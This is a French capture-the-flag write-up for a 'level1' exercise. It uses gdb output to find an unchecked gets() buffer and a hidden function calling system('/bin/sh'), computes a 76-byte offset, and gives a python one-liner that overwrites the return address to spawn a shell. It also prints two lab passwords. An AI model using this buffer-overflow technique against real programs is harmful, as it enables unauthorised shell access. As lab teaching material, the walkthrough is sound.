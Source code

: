 On se connecte sur le level1, ou se trouve un **binaire** <code>level1</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve 2 fonctions qui ne sont pas utlisées, **frame_dummy** et **run** :

```gdb
(gdb) disas frame_dummy
Dump of assembler code for function frame_dummy:
   0x08048420 <+0>:     push   %ebp
   0x08048421 <+1>:     mov    %esp,%ebp
   0x08048423 <+3>:     sub    $0x18,%esp
   0x08048426 <+6>:     mov    0x80496bc,%eax
   0x0804842b <+11>:    test   %eax,%eax
   0x0804842d <+13>:    je     0x8048441 <frame_dummy+33>
   0x0804842f <+15>:    mov    $0x0,%eax
   0x08048434 <+20>:    test   %eax,%eax
   0x08048436 <+22>:    je     0x8048441 <frame_dummy+33>
   0x08048438 <+24>:    movl   $0x80496bc,(%esp)
   0x0804843f <+31>:    call   *%eax
   0x08048441 <+33>:    leave
   0x08048442 <+34>:    ret
   0x08048443 <+35>:    nop
End of assembler dump.
```
> On voit que cette fonction ne sert pas a grand chose.
```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > b *0x08048490 # Breakpoint juste avant l'appelle de gets
Breakpoint 1 at 0x8048490
(gdb) > run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) > x/30x $esp
0xbffff6e0:     0xbffff6f0      0x0000002f      0xbffff73c      0xb7fd0ff4
0xbffff6f0:     0x080484a0      0x0804978c      0x00000001      0x08048321
0xbffff700:     0xb7fd13e4      0x00080000      0x0804978c      0x080484c1
0xbffff710:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff720:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4
0xbffff730:     0x080484a0      0x00000000      0x00000000      0xb7e454d3
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c
```
> 0xbffff73c => EIP
>
> 0xbffff6f0 => Buffer beginning
>
> 0xbffff73c - 0xbffff6f0 = 0x4c
>
> 0x4c = Offset : 76 characters

<pre><code>python -c "print '/x90' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
</code></pre>
> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utlise la commande **cat** pour laisser ouvert ce dernier :

<pre><code>> (python -c "print '/x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
> cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
</code></pre>

For download :
<pre><code>scp -P4242 level1@IP:level1 .</code></pre>
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

# Explication bonus
Pour savoir quel taille est atriuber le char* utilisé dans **get** on calcule avec :
```gdb
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```
> 0x50 - 0x10 = 0x40 = 64

Donc on a => <code>char* str[64];</code>

